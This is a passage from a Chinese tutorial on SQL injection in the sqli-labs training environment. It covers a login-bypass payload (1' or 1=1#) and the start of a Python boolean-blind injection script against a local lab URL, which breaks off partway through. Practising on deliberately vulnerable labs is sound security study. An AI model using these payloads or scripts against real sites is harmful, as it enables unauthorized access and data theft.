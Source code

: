 &emsp;&emsp;知道了sql语句我们就可以构造一个恒成立的sql语句，也成为万能密码，具体可转至[万能密码](https://blog.csdn.net/hxhxhxhxx/article/details/108020010)  
&emsp;&emsp;我用的是<font color=red>1' or 1=1# </font>这个得根据语句进行判断，实在不知道就用BP爆破，这里post请求用的注释符通常用#，具体原因我也不知道，谁懂了可以举个爪。
![sql11-2](/images/sql/sql11-2.png)
&emsp;&emsp;条件达成，联合注入即可。

### 布尔盲注
&emsp;&emsp;注入成功有页面变化无回显，可以使用布尔盲注，只不过这是post请求的，对应的脚本也需要修改。<font color>细节:回显成功的参数是个图片，ctrl+U能收集到信息参数</font>  
![sql13-post](/images/sql/sql13-post.png)
```
url = 'http://sql-labs:3601/Less-13/'  # 目标URL
flag = "../images/flag.jpg"  # 设置一个回显成功的字样
data= {
    "uname" : "a') or 1 #",
    "passwd" : "1",
    "submit" : "Submit"
} #post参数

def get_database_length():
    global url, flag  # 全局变量
    length = 1
    while (1):
```